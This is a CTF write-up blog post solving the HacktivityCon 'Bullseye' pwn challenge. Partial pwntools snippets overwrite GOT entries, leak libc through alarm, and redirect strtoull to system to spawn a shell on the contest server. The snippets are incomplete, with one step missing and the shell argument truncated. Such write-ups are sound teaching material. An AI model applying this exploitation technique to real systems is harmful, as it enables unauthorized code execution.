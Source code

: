 ```yaml
---
title: "HacktivityCon CTF: Bullseye"
date: 2020-08-09T18:48:52-06:00
draft: false
comments: false
images: ["images/ghidrabullseye.png"]
tags: ["pwn", "writeups"]
---
```


It's clear to see from the content of my blog that my expertise lies in web-based exploits. However, I have mentioned before wanting to branch out and diversify my skillset in hacking; and while I definitely have more knowledge in web exploits, I also know a thing or two about pwning. Hacktivity Con CTF was a competition that ran this month, introducing several different challenges that I sunk my teeth into. I will showcase one of them here, called "Bullseye".

## Let's Begin!

Bullseye is a binary exploit challenge where we are given an executable called "bullseye". Running it through ghidra, we can locate the main function - the binary isn't stripped:

{{< image src="/images/ghidrabullseye.png" alt="Login" position="center" style="border-radius: 8px;" >}}

We're allowed a single 'write' privilege to change some aspect of the program. In pwn challenges, the goal would be to attempt to change the value in the instruction pointer - typically, common knowledge is to change the original value in the EIP register and make it take the address of the libc ``system`` function, which would allow us to open a shell and do all sorts of things. We don't know where the libc location is through the global offset table, and so figuring out the address of ``system`` will be our main issue. 

What's interesting is that the main() function returns by exit() - hence why we only get one write. However, if we we use our one write to change exit() to instead jump back to main in the last line, we can bypass the "one write only" rule, sort of making our main() function recursive. 

Doing this, we actually obtain a [libc](https://www.gnu.org/software/libc/) leak, through the function ``alarm``. This is important - with this libc leak, we can solve our "wheres libc in the GOT" question, and calculate the ``system`` function's address in memory through it.
So we now have an oppurtunity to call ``system``, but what line should we replace in ``main`` to open our shell in?

Lines 16 and 20 feature a libc function called ``strtoull``. The nature of ``strtoull``, according to the standard lib documentation, is to take its single argument, provided its a string, and converts it to a long unisgned int. Since it expects my input, we can take advantage of that fact and replace it with our ``system`` calls while feeding in ``"/bin/sh"`` as our input.
We now have all the tools required to exploit this challenge.

1. Use the program's functionality to change ``exit()`` to ``main``. NOTE: I'm using python's [``pwn``](http://docs.pwntools.com/en/stable/) library.

```python
...
ch.remote("jh2i.com", 50031)

ch.recvuntil("write to?\n")
ch.sendline(exe.got["exit"])
ch.recvuntil("to write?\n")
```

2. Recieve the libc leak, and use it to calculate the base of libc. 

```python
alarm = ch.recvline()
alarm = int(alarm,16)
libc_base = alarm - libc.sym['alarm']
```

3. With the base of libc, calculate the address location of ``system``. Send the line of ``strtoull`` to be replaced by ``system``.

```python
ch.recvuntil("write to?\n")
ch.sendline(exe.got["strtoull"])
ch.recvuntil("to write?\n")
ch.sendline(libc_base + 0x554e0)
ch.sendline("/bin/")
```

5. Once we opened the shell, get the flag on their server!

``flag{one_write_two_write_good_write_bad_write}``

Jam